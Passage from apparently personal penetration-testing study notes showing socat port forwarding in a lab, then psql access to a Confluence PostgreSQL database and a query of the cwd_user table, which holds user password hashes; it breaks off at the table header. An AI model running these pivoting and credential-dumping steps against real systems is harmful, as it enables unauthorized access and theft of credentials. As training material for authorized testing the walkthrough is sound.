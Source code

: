 ```
2022/08/18 10:12:01 socat[46589] I This product includes software developed by the OpenSSL Project for use in the OpenSSL Toolkit. (http://www.openssl.org/)
2022/08/18 10:12:01 socat[46589] I This product includes software written by Tim Hudson (tjh@cryptsoft.com)
2022/08/18 10:12:01 socat[46589] I setting option "fork" to 1
2022/08/18 10:12:01 socat[46589] I socket(2, 1, 6) -> 5
2022/08/18 10:12:01 socat[46589] I starting accept loop
2022/08/18 10:12:01 socat[46589] N listening on AF=2 0.0.0.0:2345
```

The network is now set up like the following diagram:
![[Pasted image 20231214143436.png]]

With the Socat process running, we can run **psql** on our Kali machine, specifying that we want to connect to CONFLUENCE01 (**-h 192.168.50.63**) on port 2345 (**-p 2345**) with the _postgres_ user account (**-U postgres**)
+ When prompted, we will enter the password, and once connected, we can run the **\l** command to list the available databases
+ Usage:
```
psql -h 192.168.50.63 -p 2345 -U postgres
```
+ Example output:
```
Password for user postgres: 
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                  List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
------------+----------+----------+-------------+-------------+-----------------------
 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)
```

Success! We've connected to the PostgreSQL database through our port forward
+ We'll also find that we have access to the _confluence_ database

Using our new database access, we can continue our enumeration
+ In the confluence database, let's query the _cwd_user_ table
+ This contains the username and password hashes for all Confluence users
+ We'll connect to the database with the **`\c confluence`** command, then run **`select * from cwd_user`**, to review everything in that table:
```
postgres=# \c confluence
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "confluence" as user "postgres".

confluence=# select * from cwd_user;

   id    |   user_name    | lower_user_name | active |      created_date       |      updated_date       | first_name | lower_first_name |   last_name   | lower_last_name |      display_name      |   lower_display_name   |           email_address            |        lower_email_address         |             external_id              | directory_id |                                credential                                 
```